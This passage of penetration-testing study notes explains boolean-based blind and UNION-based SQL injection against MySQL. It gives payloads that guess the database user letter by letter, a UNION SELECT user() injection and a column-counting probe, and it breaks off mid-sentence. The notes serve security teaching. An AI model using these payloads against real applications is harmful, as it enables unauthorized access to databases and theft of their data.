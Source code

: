 #### Boolean Based SQLi

Once penetration testers find a way to tell when a condition is true or false, they can ask the database some simple True/False questions:

* Is the first letter of the username 'a'?
* Does this database contain three tables?
* ...

We can use two MySQL functions: `user()` and `substring()`:

```sql
-- `user()` returns the name of the user currently using the database:
select user();

-- `substring()` returns a substring of the given argument. It takes 3 parameters:
--  - the input string
--  - the position of the substring
--  - its length

select substring('elarnsecurity', 2, 1)

-- We can use both together:
substring(user(), 1, 1);        -- it might return 'r' for 'root' user

substring(user(), 1, 1) = 'r'   -- if it returns 1 -> True; 0 -> False

-- Combining those features, we can iterate over the letters of the username by using payloads as:
-- ' or substr(user(), 1, 1) =='a
-- ' or substr(user(), 1, 1) =='b
-- when we find the first letter then we can move to the second and so on in order to guess the entire username.
```

#### UNION Based SQL Injections

Many times some of the results of a query are directly displayed on the output page. This behavior can be exploited using the UNION SQL command.

```sql
-- The following payload forces the web application to display the result of the `user()` function on the output page.

SELECT description FROM items where id='' UNION SELECT user(); -- -';

-- The comment at the end of the line prevents the following part of the original query from being parsed by the database, comments the rest from the original query.
-- The comment also contains a third dash because most of the browsers automatically remove trailing spaces in the URL so.
-- If you need to inject a comment via a GET request, you have to add a character after the trailing space of the comment*.
-- Also used if we don't want our web application to add anything in the url after our injection.
```

To exploit a SQL injection you first need to know how many fields the vulnerable query selects, you do this by trial and error. We know there's an injection by `' UNION SELECT null; -- -`, this should display:
